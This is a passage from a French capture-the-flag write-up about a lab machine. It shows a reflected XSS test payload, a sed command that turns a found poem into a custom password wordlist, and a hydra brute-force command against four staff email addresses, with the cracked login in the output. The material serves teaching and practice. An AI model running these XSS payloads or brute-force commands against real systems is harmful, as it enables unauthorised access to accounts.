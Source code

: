 ```
http://dev.ceng-company.vm/index.php?error=<script> alert("xss");</script>
```

Effectivement une pop-up apparaît bien à l'écran. Cependant on ne peut pas faire gran chose avec une **reflected XSS**.

* * *

## Admin panel via brute force
* * *

La première option qui n'est pas la plus fun est de tenter un brute force sur la page de login en espérant trouver la bonne combinaison.

On connait la forme des adresses mail grâce au ``hint`` trouvé sur **Github**.
On connait également le nom des personnes de l'équipe qui travaillent dans l'entreprise.<br>

On pourrait donc tenter un brute force sur les adresses mail avec une grosse wordlist style ``rockyou``. Le problème c'est le **temps** que ça va prendre.<br>

Il ne faut pas oublier qu'on a un poème trouvé sur **Reddit** qui ne nous a pas servi à grand chose pour le moment. Est-ce qu'on pourrait pas s'en servir pour générer de potentiels mot de passe ? *(Nous sommes dans un CTF après tout :p)*.

On va reprendre le poème qu'on a stocké dans un fichier nommé ``reddit_poem.txt`` et on va y **appliquer des modifications** pour en faire une wordlist utilisable :

```bash
cat reddit_poem.txt| sed 's/[ ,\t]/\n/g' | sed '/^$/d' | sort | uniq > custom_wordlist.txt
```

Cette commande va récupérer le contenu du fichier, remplacer toutes les ``,`` et tabulations par un retour à la ligne pour avoir un mot par ligne.
On va ensuite enlever toutes les lignes vides et retirer les doublons. On redirige maintenant vers un nouveau fichier ``custom_wordlist.txt``.

Maintenant qu'on a notre wordlist personnalisée on va pouvoir tenter le brute force.

Nous avons donc 4 mails *(qu'on va aussi placer dans un fichier ``users.txt``)*:

```
ericthompson@ceng-company.vm
rodneycooper@ceng-company.vm
johndoe@ceng-company.vm
elizabethsky@ceng-company.vm
``` 

```bash
hydra -L users.txt -P custom_wordlist.txt dev.ceng-company.vm http-post-form "/login.php:username=^USER^&passwd=^PASS^:F=Incorret username or password" -t 64 -V
```

Avec **hydra** on spécifie la liste des utilisateurs, la wordlist de mots de passe, la cible (dans notre cas le nom de domaine), le type de formulaire (*POST*), la page de login avec les paramètres ainsi que le message d'erreur lorsque les credentials sont incorrects. On précise aussi **-t 64** pour spécifier le nombre de threads et augmenter la rapidité du brute force.

```
[80][http-post-form] host: dev.ceng-company.vm   login: elizabethsky@ceng-company.vm   password: walnuttree
```
